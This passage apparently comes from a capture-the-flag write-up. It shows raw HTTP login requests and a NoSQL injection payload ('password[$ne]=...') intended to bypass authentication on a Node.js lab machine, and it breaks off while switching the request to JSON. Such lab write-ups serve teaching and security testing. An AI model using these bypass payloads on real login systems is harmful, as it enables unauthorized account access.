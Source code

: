 Testing for NoSQL injection is a bit trickier than some of the simple checks
for SQL injection. PayloadsAllTheThings has a [good section of
payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-
bypass) for NoSQL auth bypass to keep as a handy reference for the things I’ll
show here. Here we want Node to handle the input as a JSON object. The page by
default is submitting as a HTML form (this is set by the `Content-Type` header
in the request):

    
    
    POST /login HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    Origin: http://10.10.11.139:5000
    Connection: close
    Referer: http://10.10.11.139:5000/login
    Upgrade-Insecure-Requests: 1
    
    user=admin&password=wrongpassword
    

In this format, I can try adding changing the data to:

    
    
    user=admin&password[$ne]=wrongpassword
    

If the server interprets that how I want, it would make it look for records
where the password was not equal to “wrongpassword”, which would return the
admin record.

I’ll send the login POST request to Burp Repeater and give this a try, but it
doesn’t work.

The other way that data can be sent is as JSON. I’ll change the `Content-Type`
header, and then convert the body to JSON (first without any injection to make
sure the site processed it correctly):

    
    
    POST /login HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 46
    Origin: http://10.10.11.139:5000
    Connection: close
    Referer: http://10.10.11.139:5000/login
    Upgrade-Insecure-Requests: 1
    